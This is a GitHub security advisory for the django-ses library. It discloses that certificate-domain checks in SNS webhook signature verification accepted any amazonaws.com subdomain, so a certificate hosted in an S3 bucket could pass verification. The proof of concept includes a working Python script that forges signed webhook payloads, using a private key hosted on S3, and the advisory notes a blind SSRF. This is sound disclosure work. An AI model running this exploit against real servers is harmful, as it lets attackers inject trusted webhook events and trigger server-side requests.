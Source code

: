 # Remove this

No worries, thanks for your efforts. Once you have a patch ready, I'd encourage you to create an advisory/CVE as it will let users know about the issue and also be helpful to reference for me and my client :). GitHub should let you do this pretty easily (https://docs.github.com/en/code-security/security-advisories/repository-security-advisories/creating-a-repository-security-advisory).

# Certificate URL: signature verification exposure

0. TL;DR:

If you were using the default setting or any `amazonaws.com` subdomain for `AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS`,
signature verification webhooks would have allowed someone hosting an arbitrary S3 bucket to send verified webhook
calls to your server.

`django-ses==3.5.0` addresses this by matching the `amazonaws.com` certificate URLs against a known regex, `SES_REGEX_CERT_URL`.

1. Overview

The django_ses library implements a mail backend for Django using AWS Simple Email Service.
The library exports the `SESEventWebhookView` class intended to receive signed requests from AWS
to handle email bounces, subscriptions, etc.
These requests are signed by AWS and are verified by django_ses, however the verification of this
signature was found to be flawed as it allowed users to specify arbitrary public certificates.

2. Description

The [`SESEventWebhookView`](https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/views.py#L379)
view class implements a [`post` handler](https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/views.py#L409)
which receives signed requests. By default (as [noted](https://github.com/django-ses/django-ses/tree/master#full-list-of-settings) in the README)
signature verification is enabled. Signature verification is [performed](https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/views.py#L420)
by the [`verify_event_message`](https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/utils.py#L252)
utility function which uses the `EventMessageVerifier.is_verified` method.

This method obtains the public certificate from a URL passed within the request
(https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/utils.py#L166-L189):

```py
    def _get_cert_url(self):
        """
        Get the signing certificate URL.
        Only accept urls that match the domains set in the
        AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS setting. Sub-domains
        are allowed. i.e. if amazonaws.com is in the trusted domains
        then sns.us-east-1.amazonaws.com will match.
        """
        cert_url = self._data.get("SigningCertURL")
        if not cert_url:
            logger.warning('No signing certificate URL: "%s"', cert_url)
            return None

        if not cert_url.startswith("https://"):
            logger.warning('Untrusted certificate URL: "%s"', cert_url)
            return None

        url_obj = urlparse(cert_url)
        for trusted_domain in settings.EVENT_CERT_DOMAINS:
            parts = trusted_domain.split(".")
            if url_obj.netloc.split(".")[-len(parts) :] == parts:
                return cert_url

        return None
```

Some validation is performed on the certificate URL to ensure it is from a trusted domain. By default, the trusted domains are
(https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/settings.py#L50-L61):

```py
EVENT_CERT_DOMAINS = getattr(
    settings,
    'AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS',
    getattr(
        settings,
        'AWS_SNS_BOUNCE_CERT_TRUSTED_DOMAINS',
        (
            'amazonaws.com',
            'amazon.com',
        )
    )
)
```

However, the validation of the certificate URL allows for arbitrary subdomains. Because anyone can host arbitrary files on a
subdomain of `amazonaws.com` (through hosting an AWS S3 bucket), it is possible to host an arbitrary public certificate which
gets validated and used to verify signatures.

3. Proof of Concept

To test the vulnerability, we can create a Django app and install the library:

```sh
django-admin startproject demo
cd demo
pip3 install django-ses[events]
```

Then, add the SESEventWebhookView view to the `urlpatterns` list in `urls.py`:

```py
from django.urls import path
from django_ses.views import SESEventWebhookView

urlpatterns = [
    path(r'ses/event-webhook/', SESEventWebhookView.as_view(), name='handle-event-webhook')
]
```

Run the server:

```py
python manage.py runserver
```

This runs the server on port 8000. Notice that if you send a POST request to `/ses/event-webhook`
it will fail with "Signature verification failed.":

```sh
curl -X POST http://localhost:8000/ses/event-webhook/ -d '{"Type":"SubscriptionConfirmation", "SubscribeURL": "https://example.com"}'
Signature verification failed.
```

The following Python script implements a proof of concept that signs an arbitrary payload using our attacker-controlled
private key. For convenience of testing, the certificate is available at

https://django-sns-poc.s3.ap-southeast-2.amazonaws.com/publickey.cer

and the private key is available at

https://django-sns-poc.s3.ap-southeast-2.amazonaws.com/private.key

```py
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.asymmetric import padding
from cryptography.hazmat.primitives.asymmetric import utils
import json
import requests
from base64 import b64encode

# https://github.com/django-ses/django-ses/blob/3a3280382810268476cb6c71d4c66833257db0cc/django_ses/utils.py#L191
def _get_bytes_to_sign(_data):
    """
    Creates the message used for signing SNS notifications.
    This is used to verify the bounce message when it is received.
    """

    # Depending on the message type the fields to add to the message
    # differ so we handle that here.
    msg_type = _data.get('Type')
    if msg_type == 'Notification':
        fields_to_sign = [
            'Message',
            'MessageId',
            'Subject',
            'Timestamp',
            'TopicArn',
            'Type',
        ]
    elif (msg_type == 'SubscriptionConfirmation' or
          msg_type == 'UnsubscribeConfirmation'):
        fields_to_sign = [
            'Message',
            'MessageId',
            'SubscribeURL',
            'Timestamp',
            'Token',
            'TopicArn',
            'Type',
        ]
    else:
        # Unrecognized type
        return None

    bytes_to_sign = []
    for field in fields_to_sign:
        field_value = _data.get(field)
        if not field_value:
            continue

        # Some notification types do not have all fields. Only add fields
        # with values.
        bytes_to_sign.append(f"{field}\n{field_value}\n")

    return "".join(bytes_to_sign).encode()

cert_url = 'https://django-sns-poc.s3.ap-southeast-2.amazonaws.com/publickey.cer'
# privkey available here https://django-sns-poc.s3.ap-southeast-2.amazonaws.com/private.key
privkey = serialization.load_pem_private_key(open('./private.key','rb').read(), password=None)
target_endpoint = 'http://localhost:8000/ses/event-webhook/'

payload = {
    'Type': 'SubscriptionConfirmation',
    'SubscribeURL': 'http://localhost:9999',
}

sign_bytes = _get_bytes_to_sign(payload)
chosen_hash = hashes.SHA1()
hasher = hashes.Hash(chosen_hash)
hasher.update(sign_bytes)
digest = hasher.finalize()
sig = privkey.sign(
    digest,
    padding.PKCS1v15(),
    utils.Prehashed(chosen_hash)
)
payload['SigningCertURL'] = cert_url
payload['Signature'] = b64encode(sig).decode()

r = requests.post(target_endpoint, json=payload)
print(r.status_code) # this is 200, which indicates the message was accepted
```

3. Impact

The impact may vary depending on the context of the application and how bounce events are
handled. Due to the fact that the library suggests that signatures are verified by default,
consumers may consider the data to be trusted and hence use it without appropriate validation.
At the very least, this issue allows a (blind) SSRF vulnerability through the `SubscriptionConfirmation`
event type, however I didn't note this having a very large impact on its own.

4. Credits

Joseph Surin, elttam

5. Recommendations

If you're not setting a value for `AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS`, upgrade to `v3.5.0` and re-test your webhooks to make sure the
signature verification still passes.

If you are setting a value for `AWS_SNS_EVENT_CERT_TRUSTED_DOMAINS` and it contains `amazonaws.com`, set the full domain instead. This
is best practice even if your domain is not `amazonaws.com`, to restrict the possible security risk of other subdomains sending
verifiable webhook calls.

See `django-ses` [Releases](https://github.com/django-ses/django-ses/releases/tag/v3.5.0) for more details about the code changes.
